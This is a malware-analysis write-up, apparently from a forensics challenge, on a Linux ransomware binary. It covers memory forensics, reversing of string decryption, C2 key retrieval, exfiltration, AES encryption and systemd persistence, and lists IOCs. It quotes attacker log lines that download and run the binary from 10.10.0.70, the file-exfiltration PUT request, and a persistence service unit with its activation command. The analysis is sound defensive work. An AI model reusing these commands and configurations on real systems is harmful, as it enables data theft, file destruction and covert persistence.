

### <span style="color:lightblue">TL;DR</span>

A Linux ransomware ELF binary (`ubuntu-client`) was deployed on a development server by an insider threat. The malware XOR-decrypts its strings at runtime using a command-line passphrase, beacons to a DigitalOcean-hosted C2 to retrieve an AES-256-CBC key and IV, recursively exfiltrates and encrypts files under `/share` with a `.24bes` extension, then installs a systemd persistence service before deleting itself.

### <span style="color:red">Memory Analysis</span>

#### <span style="color:red">Bash History</span>

Memory analysis of the VMware snapshot (`ubuntu-client-Snapshot2.vmem`) using Volatility 3 revealed two distinct bash sessions. The insider (PID 636) executed the malicious binary multiple times with the argument `xGonnaGiveIt2Ya` before deleting it to cover their tracks. A remote attacker (PID 22683) subsequently connected over SSH, re-downloaded the binary from `10.10.0.70` and executed it again. Also show modifications to `/etc/ssh/sshd_config`.
```
PS C:\Users\s\Desktop\lockpick3 > vol -f .\ubuntu-client-Snapshot2.vmem linux.bash.Bash
Volatility 3 Framework 2.27.0
Progress:  100.00               Stacking attempts finished
PID     Process CommandTime     Command
...[snip]...
636     bash    2024-06-03 10:49:32.000000 UTC  nano /etc/ssh/sshd_config
636     bash    2024-06-03 10:50:30.000000 UTC  ip a
636     bash    2024-06-03 10:51:41.000000 UTC  nano /etc/ssh/sshd_config
636     bash    2024-06-03 10:53:22.000000 UTC  systemctl restart shh
636     bash    2024-06-03 10:53:29.000000 UTC  sudo
636     bash    2024-06-03 10:53:29.000000 UTC  systemctl restart ssh
636     bash    2024-06-03 11:21:30.000000 UTC  ls
636     bash    2024-06-03 15:31:03.000000 UTC  sudo apt-get install apache2
636     bash    2024-06-03 15:32:44.000000 UTC  ./ubuntu-client xGonnaGiveIt2Ya
636     bash    2024-06-03 15:36:00.000000 UTC  ./ubuntu-client xGonnaGiveIt2Ya
636     bash    2024-06-03 15:40:24.000000 UTC  ./ubuntu-client xGonnaGiveIt2Ya
636     bash    2024-06-03 15:50:57.000000 UTC  rm ubuntu-client
...[snip]...
22683   bash    2024-06-03 15:51:25.000000 UTC  mdkir /share
22683   bash    2024-06-03 15:51:25.000000 UTC  wget http://10.10.0.70:8123/ubuntu-client
22683   bash    2024-06-03 15:51:25.000000 UTC  wget http://10.10.0.70:8000/ubuntu-client
22683   bash    2024-06-03 15:51:38.000000 UTC  ./ubuntu-client xGonnaGiveIt2Ya
22683   bash    2024-06-03 15:54:24.000000 UTC  sudo apt-get install libcjson-dev
22683   bash    2024-06-03 15:54:31.000000 UTC  ./ubuntu-client xGonnaGiveIt2Ya
```

### <span style="color:red">Initial Analysis</span>
```
.\ubuntu-client: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=595b1b2a3a1451774884ddc5d265e25a44e21574, for GNU/Linux 3.2.0, stripped
┌─────────────┬────────────────────────────────────────────────────────────────────────────────────┐
│ md5         │ a2444b61b65be96fc2e65924dee8febd                                                   │
│ sha1        │ 071de351a8c1d4df1437c8d68e217a19c719c7af                                           │
│ sha256      │ fc519667f03cb94ab7675c0427da42a38abb8675dda4b53cea814499040c0947                   │
│ os          │ linux                                                                              │
│ format      │ elf                                                                                │
│ arch        │ amd64                                                                              │
│ path        │ C:/Users/s/Desktop/lockpick3/ubuntu-client                                         │
└─────────────┴────────────────────────────────────────────────────────────────────────────────────┘
```

#### <span style="color:red">Strings</span>

Static analysis of the binary revealed its core capabilities before any reversing. The malware uses **AES-256-CBC** likely to encrypt files with extensions `.txt .pdf .sql .db .docx .xlsx .pptx .zip .tar .tar.gz`, renaming each to `.24bes`. Communication with the C2 server is handled via `libcurl` over HTTPS using two endpoints: `/connect` and `/upload/`.
```
EVP_EncryptUpdate
EVP_EncryptInit
EVP_aes_256_cbc
EVP_CIPHER_CTX_new
EVP_EncryptFinal
EVP_CIPHER_CTX_free
...[snip]...
Content-Type: application/json
/connect
key
client_id
{"passphrase": "%s", "hostname": "%s"}
.txt
.pdf
.sql
.db
.docx
.xlsx
.pptx
.zip
.tar
.tar.gz
X-Filename: %s
/upload/
%s.24bes
```

### <span style="color:red">Reversing with IDA</span>

#### <span style="color:red">Strings Encryption</span>

All sensitive strings in the binary are XOR-encrypted at rest and decrypted at runtime by `mw_xor_decryption()` using the passphrase supplied as a command-line argument. The routine iterates over each byte of the encrypted buffer and XORs it against the key with wrap-around (`i % key_length`).







The XOR key used for all string decryption is `xGonnaGiveIt2Ya` — the passphrase passed as `argv[1]` at execution time. In hex: `78476f6e6e61476976654974325961`. For comfortably, i used the IDA plugin **hrt** to decrypt data with algorithm `Xor with string`, key `78476f6e6e61476976654974325961`:



The full list of strings decrypted at startup:

| Address | Decrypted Value | Purpose |
|---------|----------------|---------|
| `unk_6020` | `https://plankton-app-3qigq.ondigitalocean.app/` | C2 base URL |
| `aShare` | `/share/` | Target directory |
| `aSebh24` | `sebh24` | Passphrase sent to C2 |
| `aUsrBinUbuntuRu` | `/usr/bin/ubuntu-run` | Persistence binary path |
| `aEtcSystemdSyst` | `/etc/systemd/system/ubuntu_running.service` | Systemd unit path |
| `aUnitDescriptio` | `[Unit]\nDescription=Ubuntu Running\n...` | Systemd unit content |
| `aSystemctlDaemo` | `systemctl daemon-reload && systemctl enable ubuntu_running.service && systemctl start ubuntu_running.service` | Persistence activation |

After all strings are decrypted, `main` executes three functions:



#### <span style="color:red">C2 Communication — Key Retrieval</span>

The function `mw_request_and_key_retrieving` performs the initial C2 beacon. It builds a JSON payload containing the hardcoded passphrase `sebh24` and the victim's hostname, then POSTs it to `/connect`.



| Value | CURLOPT Constant | Description |
|-------|-----------------|-------------|
| `10002` | `CURLOPT_URL` | Request URL |
| `10015` | `CURLOPT_POSTFIELDS` | POST request body (JSON payload) |
| `20011` | `CURLOPT_WRITEFUNCTION` | Callback function for writing the response |
| `10001` | `CURLOPT_WRITEDATA` | Buffer where the response is written |
| `10023` | `CURLOPT_HTTPHEADER` | HTTP headers (`Content-Type: application/json`) |

The payload is constructed by `mw_passphrase_and_hostname`:


```json
{"passphrase": "sebh24", "hostname": "<victim_hostname>"}
```


On success, the C2 responds with a JSON object containing three fields parsed via `cJSON`:



| Field | Purpose |
|-------|---------|
| `key` | AES-256-CBC encryption key |
| `iv` | AES initialisation vector |
| `client_id` | Unique victim tracking identifier |

Encryption only proceeds if both `key` and `iv` are successfully received. If the C2 is unreachable, the malware exits without encrypting any files.

#### <span style="color:red">File Exfiltration & Encryption</span>

The malware implements a **recursive directory traversal** starting at `/share/`, targeting files with the following extensions:
```c
s2[0] = ".txt";   s2[1] = ".pdf";   s2[2] = ".sql";
s2[3] = ".db";    s2[4] = ".docx";  s2[5] = ".xlsx";
s2[6] = ".pptx";  s2[7] = ".zip";   s2[8] = ".tar";
s2[9] = ".tar.gz";
```

Each matching file is **exfiltrated** to the C2 via an HTTP PUT request before any encryption occurs:
```
PUT https://plankton-app-3qigq.ondigitalocean.app/upload/<client_id>
X-Filename: <filename>
```



Then the file is encrypted using AES-256-CBC with the key and IV retrieved from C2. The encrypted output is written to `<filename>.24bes`, the original file is zero-wiped with `memset`, and then deleted with `remove()` — preventing recovery via file carving or undelete tools.



#### <span style="color:red">Persistence</span>

After encryption completes, the malware installs itself as a systemd service to survive reboots. It copies the binary to `/usr/bin/ubuntu-run`, writes the following unit file to `/etc/systemd/system/ubuntu_running.service`, then runs `systemctl daemon-reload && systemctl enable ubuntu_running.service && systemctl start ubuntu_running.service`.
```ini
[Unit]
Description=Ubuntu Running
After=network.target

[Service]
ExecStart=/usr/bin/ubuntu-run xGonnaGiveIt2Ya
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```



Note that `ExecStart` passes `xGonnaGiveIt2Ya` as the argument — meaning the XOR decryption key is baked into the service definition, allowing the malware to restart and re-encrypt after a reboot or recovery attempt.

### <span style="color:lightblue">IOCs</span>

| Type | Value |
|------|-------|
| MD5 | `a2444b61b65be96fc2e65924dee8febd` |
| SHA1 | `071de351a8c1d4df1437c8d68e217a19c719c7af` |
| SHA256 | `fc519667f03cb94ab7675c0427da42a38abb8675dda4b53cea814499040c0947` |
| C2 URL | `https://plankton-app-3qigq.ondigitalocean.app/` |
| C2 Endpoint | `/connect` — key retrieval |
| C2 Endpoint | `/upload/<client_id>` — file exfiltration |
| Attacker IP | `10.10.0.70` |
| Ransomware extension | `.24bes` |
| Persistence binary | `/usr/bin/ubuntu-run` |
| Persistence service | `/etc/systemd/system/ubuntu_running.service` |
| XOR key | `xGonnaGiveIt2Ya` |
| C2 passphrase | `sebh24` |

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|---|---|---|
| Ingress Tool Transfer | T1105 | Binary downloaded via wget from 10.10.0.70 |
| Obfuscated Files or Information | T1027 | XOR-encrypted strings keyed on CLI passphrase |
| Application Layer Protocol: HTTPS | T1071.001 | C2 communication to DigitalOcean over HTTPS |
| Exfiltration Over C2 Channel | T1041 | Files PUT to /upload/<client_id> before encryption |
| Data Encrypted for Impact | T1486 | AES-256-CBC encryption → .24bes extension |
| Indicator Removal: File Deletion | T1070.004 | Originals zeroed and removed after encryption |
| Create or Modify System Process: Systemd Service | T1543.002 | ubuntu_running.service for persistence |
| Modify SSH Config | T1098 | /etc/ssh/sshd_config modified early in session |

### <span style="color:lightblue">Attack Flow</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef input fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef check fill:#fff9c4,stroke:#fbc02d,stroke-width:2px,stroke-dasharray: 5 5,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef term fill:#e0e0e0,stroke:#333,stroke-width:2px,color:#000;

    Start([Attacker 10.10.0.70]):::input --> SSHConfig[Modify /etc/ssh/sshd_config]:::exec

    subgraph Delivery [Delivery]
        SSHConfig  --> Exec[./ubuntu-client xGonnaGiveIt2Ya]:::exec
    end

    subgraph Decryption [String Decryption]
        Exec --> XOR[XOR decrypt strings<br/>key = xGonnaGiveIt2Ya]:::exec
        XOR --> Strings[C2 URL /share/<br/>/usr/bin/ubuntu-run<br/>ubuntu_running.service]:::exec
    end

    subgraph C2 [C2 Registration]
        Strings --> Connect[POST /connect<br/>passphrase + hostname]:::exec
        Connect --> KeyRecv[Receive AES key<br/>IV + client_id]:::exec
    end

    subgraph Impact [Encryption and Exfiltration]
        KeyRecv --> Traverse[Recursive traversal<br/>/share/]:::exec
        Traverse --> Exfil[PUT /upload/client_id<br/>X-Filename header]:::exec
        Exfil --> Encrypt[AES-256-CBC encrypt<br/>→ filename.24bes]:::exec
        Encrypt --> Wipe[Zero + remove original]:::exec
    end

    subgraph Persistence [Persistence]
        KeyRecv --> CopyBin[Copy to /usr/bin/ubuntu-run]:::exec
        CopyBin --> Service[Write ubuntu_running.service]:::exec
        Service --> Systemctl[systemctl daemon-reload<br/>enable + start]:::exec
        Systemctl --> Boot((Survives reboot)):::exec
    end
